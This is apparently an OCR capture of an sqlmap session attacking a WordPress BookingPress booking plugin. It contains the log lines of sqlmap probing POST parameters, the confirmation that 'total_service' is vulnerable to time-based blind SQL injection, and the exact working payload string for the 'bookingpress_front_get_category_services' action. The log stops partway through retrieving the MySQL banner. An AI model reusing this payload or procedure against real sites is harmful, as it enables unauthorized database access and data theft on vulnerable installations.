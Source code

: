 [14:19:21] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:19:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:19:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:19:23] [WARNING] POST parameter '_wpnonce' does not seem to be injectable
[14:19:23] [INFO] testing if POST parameter 'category_id' is dynamic
[14:19:24] [WARNING] POST parameter 'category_id' does not appear to be dynamic
[14:19:24] [WARNING] heuristic (basic) test shows that POST parameter 'category_id' might not be injectable
[14:19:24] [INFO] testing for SQL injection on POST parameter 'category_id'
[14:19:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:19:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:19:26] [INFO] testing 'Generic inline queries'
[14:19:26] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:19:27] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:19:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:19:30] [WARNING] POST parameter 'category_id' does not seem to be injectable
[14:19:30] [INFO] testing if POST parameter 'total_service' is dynamic
[14:19:30] [WARNING] POST parameter 'total_service' does not appear to be dynamic
[14:19:30] [WARNING] heuristic (basic) test shows that POST parameter 'total_service' might not be injectable
[14:19:31] [INFO] testing for SQL injection on POST parameter 'total_service'
[14:19:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:19:32] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:19:32] [INFO] testing 'Generic inline queries'
[14:19:33] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:19:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:19:45] [INFO] POST parameter 'total_service' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:19:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:19:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:19:45] [INFO] checking if the injection point on POST parameter 'total_service' is a false positive
POST parameter 'total_service' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 129 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502)  AND (SELECT 4277 FROM (SELECT(SLEEP(5)))MMNH)-- UzsX
---
[14:20:03] [INFO] the back-end DBMS is MySQL
[14:20:03] [INFO] fetching banner
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:20:03] [INFO] retrieved: 
[14:20:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[14:20:22] [INFO] adjusting time delay to 2 seconds due to good response times
[14:20:27] [ERROR] invalid character detected. retrying..
[14:20:27] [WARNING] increasing time delay to 3 seconds
0.5
[14:21:29] [ERROR] invalid character detected. retrying..